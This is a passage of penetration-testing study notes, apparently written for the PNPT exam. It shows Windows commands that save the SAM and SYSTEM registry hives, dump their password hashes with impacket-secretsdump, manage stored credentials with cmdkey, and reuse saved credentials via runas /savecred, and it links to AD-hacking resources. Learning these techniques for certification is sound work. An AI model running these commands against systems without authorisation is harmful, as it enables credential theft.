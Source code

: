- Create copies of SAM and SYSTEM

```c
reg save hklm\sam C:\Users\user\Desktop\sam.hive
reg save hklm\system C:\Users\user\Desktop\system.hive
```

- SAM and SYSTEM can be used to do `secretsdump` on them with impacket.

```python
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

### Credential Manager
---

Stores user credentials (usernames, passwords, certs.) using the Windows Data Protection API (DPAPI)

- To list out all stored credentials

```c
cmdkey /list
```

- To add new credentials

```c
cmdkey /add:MyServer /user:MyUser /pass:MyPassword
```

- To delete credentials

```c
cmdkey /delete:MyServer
cmdkey /delete:Domain:interactive=WORKGROUP\Administrator
```

- Open a shell as a new user and save credential into the manager. The first time it asks for the password.

```c
runas /savecred /user:<DOMAIN/WORKGROU>\user powershell.exe
```

- After the credentials have been stored, it is possible to use them again. This time the password is not asked anymore.

```c
runas /savecred /user:<DOMAIN/WORKGROU>\user cmd.exe
```

## Useful Resources
---

Some useful linkes that helped during studing and taking the PNPT exam:

- [WADComs](https://wadcoms.github.io/) - An interactive Cheat Sheet for Windows/AD hacking.
- [GOAD Writeups](https://mayfly277.github.io/categories/goad/) - Writeups fro the [Game of Active Directory](https://orange-cyberdefense.github.io/GOAD/) lab environment.
- [AD Mindmap](https://mayfly277.github.io/posts/Upgrade-Active-Directory-mindmap/) - Mindmap for pentesting Active Directory.
- [OSCP AD Lab](https://www.youtube.com/playlist?list=PLT08J44ErMmb9qaEeTYl5diQW6jWVHCR2) - YouTube OSCP themed playlist for setting up and later hacking AD.